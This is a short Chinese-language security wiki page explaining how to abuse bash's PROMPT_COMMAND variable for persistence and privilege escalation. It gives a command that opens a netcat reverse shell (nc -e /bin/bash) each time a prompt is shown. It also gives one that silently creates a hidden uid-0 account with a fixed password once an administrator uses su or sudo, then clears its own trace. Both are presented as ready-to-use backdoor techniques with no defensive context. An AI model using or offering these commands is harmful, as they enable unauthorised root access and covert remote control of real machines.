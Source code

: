 ## PROMPT_COMMAND

bash提供了一个环境变量PROMPT_COMMAND,这个变量会在你执行命令前执行一遍。这样就可以利用他执行的命令来留后门。

```bash
export PROMPT_COMMAND="nc -e /bin/bash 127.0.0.1 6666 &"

```

![](images/security_wiki/15905821097200.png)


**提权**

如果当前用户是低权账号，管理员又经常使用su等、但是自己不知道密码。就可以来使用这种方法。利用sudo的权限提升来新建一个uid为0的用户

```bash
export PROMPT_COMMAND="/usr/sbin/useradd -o -u 0 test2 &>/dev/null && echo test2:123456 | /usr/sbin/chpasswd &>/dev/null && unset PROMPT_COMMAND"

```

![](images/security_wiki/15905821158207.png)

![](images/security_wiki/15905821206872.png)


